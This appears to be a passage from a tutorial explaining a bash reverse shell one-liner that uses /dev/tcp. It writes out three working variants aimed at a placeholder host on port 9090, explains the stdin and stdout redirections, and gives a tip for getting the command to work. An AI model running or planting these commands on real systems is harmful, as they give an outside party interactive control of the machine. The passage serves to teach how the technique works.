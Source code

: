 First of all, bash is invoked twice here. The reason is because if I run just this:

```bash
/bin/bash -i >& /dev/tcp/your.ip.here/9090 0>&1
```

Then this command will only work *if I'm invoking it from within an already-running bash shell.* The reason for that is because the concept of `/dev/tcp` exists only within bash, so if I run the above from within `sh` or `zsh` or something similar, it will have no idea what `/dev/tcp` is referring to, and thus bomb out. It will tell `/bin/bash` to start interactively to somewhere that doesn't exist, and it will fail. Wrapping the above in `/bin/bash -c 'etc etc'` will invoke a new bash shell, and then invoke bash *again* within the first bash shell's `/dev/tcp` object, directive STDOUT and STDIN back and forth through the tunnel.

In the case of the above, `>&` redirects STDOUT and STDERR to the TCP endpoint specified, and `0>&1` redirects STDIN to the same.

Here are some alternatives to the above:

```bash
/bin/bash -i &>/dev/tcp/your.ip.here/9090 <&1
/bin/bash -i &>/dev/tcp/your.ip.here/9090 0<&1
```

All perform the same function. Just know that if it doesn't work at first, try enclosing it within `bash -c 'etc etc'`